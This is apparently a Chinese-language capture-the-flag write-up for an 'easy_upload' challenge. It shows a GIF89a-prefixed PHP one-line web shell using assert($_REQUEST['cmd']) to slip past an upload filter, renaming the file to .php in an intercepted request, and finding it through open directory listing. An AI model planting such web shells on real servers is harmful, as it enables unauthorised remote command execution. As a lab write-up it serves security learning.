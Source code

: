 # 解题过程

## 绕过过滤并上传

访问页面，查看源代码

![image-20230324163954417.png (472×195) (raw.githubusercontent.com)](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/[catf1ag]easy_upload/image-20230324163954417.png)

![image-20230324163954417.png (472×195) (raw.githubusercontent.com)](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/[catf1ag]easy_upload/image-20230324164043141.png)

![image-20230324163954417.png (472×195) (raw.githubusercontent.com)](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/[catf1ag]easy_upload/image-20230324164100050.png)

上传一句话木马，并将`no`修改为`yes`

```php
GIF89a
<?=
assert($_REQUEST['cmd']);
?>
```



![image-20230324163954417.png (472×195) (raw.githubusercontent.com)](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/[catf1ag]easy_upload/image-20230324164348718.png)

至于为啥使用`assert`而不是`eval()`，因为有过滤

![image-20230324163954417.png (472×195) (raw.githubusercontent.com)](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/[catf1ag]easy_upload/image-20230324164254419.png)

![image-20230324163954417.png (472×195) (raw.githubusercontent.com)](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/[catf1ag]easy_upload/image-20230324164554364.png)

## 解决恶心点——时间戳恶魔

如果你看过abcde师傅的wp，那么现在恭喜你看到我的wp就不用被恶心了

绕过过滤上传后发文件被重名命为了`时间戳.php`,但是实际上后缀是没有被从命名的，抓包后还是要修改后缀为`.php`

最后的最后我本人是疯狂试都没有成功，被恶心坏了气急败坏的贱了一手，出来的结果让我崩溃了

![1](https://pic1.zhimg.com/80/v2-24e1b60ad8308775bfe14a4f2a8c5ae7_720w.webp?source=1940ef5c)

**我只能说，不需要时间戳，直接访问`/uploads`就可以了，apache并没有关闭目录浏览**

![image-20230324163954417.png (472×195) (raw.githubusercontent.com)](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/[catf1ag]easy_upload/image-20230324164821920.png)

最后蚁剑连接或者手动执行命令即可，flag在`index.php`中

QAQ我为啥没早点试试